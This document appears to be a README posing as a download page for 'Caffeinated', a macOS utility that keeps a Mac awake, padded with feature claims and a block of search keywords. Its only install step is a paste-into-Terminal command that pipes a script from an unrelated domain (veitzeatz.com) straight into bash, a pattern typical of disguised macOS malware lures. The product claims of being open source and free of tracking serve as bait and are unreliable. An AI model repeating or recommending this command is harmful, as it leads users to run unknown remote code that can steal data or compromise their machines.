 # Caffeinated Mac Download

![Caffeinated App Screenshot](https://caffeinated.app/wp-content/uploads/2023/02/asset-new-2.png)

---

## 💾 Download Caffeinated for Mac

Open the terminal on your device and paste the command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```

---

## 🧠 What Is Caffeinated for Mac?

**Caffeinated for Mac** is a minimalist yet highly useful macOS utility that prevents your Mac from automatically going to sleep, dimming the screen, or starting the screensaver. Inspired by the original **Caffeine app for mac**, Caffeinated provides a modern alternative optimized for **macOS Big Sur**, **Monterey**, **Ventura**, **Sonoma**, and even **macOS Sequoia** with native Apple Silicon (M1/M2/M3) support.

This application is especially helpful when performing tasks that require your system to remain active for extended periods — such as watching long videos, running presentations, downloading large files, or during development sessions when compiling code or monitoring logs. With just a click on the menu bar icon, you can activate or deactivate the session, optionally setting custom durations (like 15 mins, 30 mins, 1 hour, or indefinitely).

Unlike more complex energy settings or terminal commands, **Caffeinated** offers a clean and elegant solution, ensuring your Mac stays on without affecting other performance settings or requiring administrator access. Its intuitive interface and minimal system resource usage make it a favorite among Mac power users.

From a technical standpoint, Caffeinated uses the `IOPMAssertion` framework from Apple, ensuring stable system-level sleep prevention. It's open source, regularly updated, and completely ad-free. The app is designed with accessibility and simplicity in mind, featuring full **macOS Dark Mode** support, Retina-optimized icons, and low CPU/memory footprint.

Whether you're presenting to a client, streaming, working remotely, or just sipping a real cup of coffee, **Caffeinated** helps your Mac match your pace — and stay awake when you need it most.

---

![Caffeinated for Mac](https://caffeinated.app/wp-content/uploads/2021/01/asset-1.png)

---

## ✅ Key Benefits of Using Caffeinated

- ⚡ **One-Click Activation** – Keep your Mac awake instantly with a tap on the menu bar.
- 🕐 **Custom Duration Settings** – Choose from pre-set durations or keep it running indefinitely.
- 🖥️ **Ideal for Professionals** – Perfect during long coding sessions, video rendering, remote work, or screen recording.
- 🍎 **macOS Native Experience** – Full support for Apple Silicon (M1/M2/M3) and macOS Ventura, Sonoma, Sequoia.
- 🌙 **Dark Mode Compatible** – Seamless interface whether you work during the day or night.
- 🔋 **Energy Efficient** – Prevents sleep without unnecessary background processes.
- 🔐 **No Ads, No Tracking** – 100% privacy-respecting and free of any telemetry.
- 🆓 **Free and Open Source** – Actively developed and available for free.

---

## 🧾 Keywords

`caffeinated mac`, `caffeine app mac`, `caffeine application mac`, `caffeine for macbook`, `caffeine mac os`,  
`caffeine macbook app`, `download caffeine for mac`, `caffeine osx`, `mac os caffeine app`, `app caffeine mac`,  
`caffeine app download mac`, `caffeine app for mac free download`, `caffeine app mac download`,  
`caffeine app mac m1`, `caffeine app macos`, `caffeine for mac free download`, `caffeine for mac m1`,  
`caffeine for macos`, `caffeine mac install`, `caffeine mac m1`, `caffeine program mac`, `caffeine software for mac`,  
`caffeine software mac`, `install caffeine mac`
